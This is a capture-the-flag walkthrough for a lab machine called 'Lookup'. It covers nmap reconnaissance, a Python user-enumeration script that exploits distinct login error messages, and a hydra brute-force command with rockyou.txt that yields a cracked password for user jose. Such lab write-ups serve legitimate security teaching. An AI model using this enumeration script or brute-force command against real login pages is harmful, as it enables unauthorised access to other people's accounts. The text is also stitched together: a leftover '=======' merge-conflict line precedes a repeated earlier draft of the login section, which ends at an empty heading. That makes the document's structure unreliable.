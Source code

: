 ### Intro
_Lookup_ features real-world vulnerabilities like web app flaws and privilege escalation. It teaches key skills such as reconnaissance, enumeration, command injection, and scripting for automation—offering valuable experience in penetration testing and secure coding practices.
#### Nmap
```bash
nmap -p- -A 10.10.248.120
Starting Nmap 7.80 ( https://nmap.org ) at 2025-07-14 22:49 BST
Nmap scan report for ip-10-10-248-120.eu-west-1.compute.internal (10.10.248.120)
Host is up (0.00021s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://lookup.thm
MAC Address: 02:55:1A:4A:B6:E7 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=7/14%OT=22%CT=1%CU=41006%PV=Y%DS=1%DC=D%G=Y%M=02551A%T
OS:M=68757B71%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=Z%II=I
OS:%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11N
OS:W7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F
OS:4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T
OS:=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R
OS:%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=
OS:40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R
OS:=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.21 ms ip-10-10-248-120.eu-west-1.compute.internal (10.10.248.120)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.87 seconds
```

Browsing the IP gives us `We can’t connect to the server at lookup.thm.`, meaning the computer tried to reach the address `http://lookup.thm` but couldn't find or connect to the server. To overcome this issue we need to map the `ip` to `hostname` in `/etc/hosts (a local file where you manually map hostnames to IP addresses)` file because the internal lab domains aren't publicly registered. 

#### Browse the hostname
```bash
lookup.thm
```
- We get a basic login page.

When we try to input some random creds, we get an error message saying `Wrong username or password. Please try again. Redirecting in 3 seconds.` However, when we try default creds like `admin:admin`, we only get `Wrong password. Please try again. Redirecting in 3 seconds.` We can also see that the `HTTP Method: POST` and `Subdirectory: login.php` pop up for a few seconds. We can confirm this by nmap scan.

#### Nmap to Discover the Login Page
```bash
nmap -p80 --script http-enum <IP>
```

Now that we have managed to find the login page, we can try to `brute-force` this page. Before finding passwords we need to find users in the website. One of the users is `admin`, we can confirm that from earlier error message. We can use a Python script to find users.
#### Python Script to Enumerate Users
```python
import requests
from concurrent.futures import ThreadPoolExecutor
import threading
from urllib.parse import urljoin

print_lock = threading.Lock()

def is_valid_user(response):
    invalid_msg = "Wrong username or password. Please try again.<br>Redirecting in 3 seconds."
    return not (response.text.strip() == invalid_msg and len(response.text.strip()) == 74)

def check_username(session, post_url, username_field, password_field, fake_password, username):
    data = {username_field: username, password_field: fake_password}
    try:
        response = session.post(post_url, data=data, timeout=10)
        if is_valid_user(response):
            with print_lock:
                print(f"[+] Valid username: {username}")
    except requests.RequestException:
        pass  # silently ignore errors

def main():
    print("=== User Enumeration (Only Valid Users Output) ===\n")
    base_url = input("Base URL (e.g. http://lookup.thm/): ").strip()
    post_path = input("Login form action path (e.g. login.php): ").strip()
    post_url = urljoin(base_url, post_path)
    username_field = input("Username field name (e.g. username): ").strip()  # The username and password fields can be extracted from 
    password_field = input("Password field name (e.g. password): ").strip()  # the source page under username and password snippets.
    fake_password = input("Fake password to use (e.g. Invalid123!): ").strip()
    wordlist_path = input("Path to username wordlist: ").strip()
    threads = input("Number of threads to use (default 10): ").strip()
    threads = int(threads) if threads else 10

    session = requests.Session()
    try:
        with open(wordlist_path, "r") as f:
            usernames = [line.strip() for line in f if line.strip()]
    except FileNotFoundError:
        print("[!] Wordlist file not found.")
        return

    print(f"\n[*] Starting scan with {threads} threads...\n")

    with ThreadPoolExecutor(max_workers=threads) as executor:
        for username in usernames:
            executor.submit(check_username, session, post_url, username_field, password_field, fake_password, username)

if __name__ == "__main__":
    main()
```

We have managed to extract two usernames `admin` and `jose`. Now, it's time to brute-force the password for these users.

#### Brute Force with Hydra
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form '/login.php:username=jose&password=^PASS^:F=Wrong' -t 32
```

We've managed to crack the password of the user `jose` and the password is `password123`. We now use these credentials to login in but like earlier we get nothing. When we inspect the `Network` tab and login with the creds again, we get a new subdomain `files.lookup.thm`. 

This technique is called `Virtual Hosting`, where multiple domain names are hosted on the same IP. The web server uses the `Host header in the HTTP request` to determine which site to server.

We can map this subdomain to the IP like we did earlier.

#### Map the Subdomain
```bash
sudo vim /etc/hosts
IP     files.lookup.thm
```

Once that is done, refresh the page and we are inside the website. There are a lot of files and we can check all of them. However, 
=======
When we try to input some random creds, we get an error saying `Wrong username or password. Please try again. Redirecting in 3 seconds.` However, when we try default creds like `admin:admin`, we only see the password error and not the username error `Wrong password. Please try again. Redirecting in 3 seconds.` which means that the `admin` is a genuine username.

Next we check the `Network` tab in `Inspect page/Web Developer Tools`.  We can see there's an error saying `Wrong username or password. Please try again. Redirecting in 3 seconds.` We can also see that the `HTTP Method: POST` and `Subdirectory: login.php` popped up for a few second. We can confirm this by nmap scan.

#### Nmap to Discover the Login Page
```bash
nmap -p80 --script http-enum <IP>
```

Now that we have managed to find a login page, we can try to `Brute-Force` this page.

#### Brute Force the Login Page with Hydra
